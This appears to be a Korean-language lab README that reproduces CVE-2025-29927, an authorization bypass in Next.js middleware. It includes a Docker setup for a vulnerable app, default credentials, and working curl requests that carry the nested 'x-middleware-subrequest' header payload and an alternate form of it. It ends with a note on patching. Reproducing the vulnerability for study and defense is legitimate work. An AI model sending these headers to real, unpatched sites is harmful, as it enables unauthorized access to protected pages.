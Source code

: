 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.
Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 조작된 요청을 적절히 검증하지 못하여, 내부 렌더링 데이터(`__next_f`)가 외부로 노출되는 문제가 발생합니다


## Next.js란?
Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.
Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.


## 취약점 영향
공격자는 인증 없이 서버 내부 렌더링 데이터에 접근할 수 있으며, 이를 통해 민감한 경로 정보, 내부 페이지 구성 정보를 획득할 수 있습니다. 이는 추가 공격(디렉토리 탐색, 내부 API 파악 등)으로 이어질 수 있습니다.

### 요약
- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

<br/>

### 환경 설정 (Environment Setup)

아래의 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다.
```
docker compose up -d
```
<br/>

### 취약점 재현 (Vulnerability Reproduction)
정상적으로는 인증되지 않은 사용자가 대시보드에 직접 접근할 경우 로그인 페이지로 리디렉션됩니다.

```bash
curl -i http://localhost:3000
```
![](./p2.png)

애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```
![](./p3.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

## PoC 결과 화면
curl 요청을 통해 서버로부터 응답을 받은 결과, 내부 렌더링 JSON 데이터가 포함되어 있음을 확인할 수 있습니다.
![PoC 결과 - 서버 렌더링 데이터 노출](./p1.png)
응답 본문에는 `__next_f` 구조를 가진 서버 렌더링 데이터가 포함되어 있으며, 이는 인증 없이 민감한 내부 정보를 획득할 수 있음을 의미합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

## 대응 방법 (Remediation)
본 취약점은 Next.js 15.2.3 이상 버전에서 패치되었습니다. 따라서 해당 버전 이상으로 업그레이드하는 것이 권장됩니다.
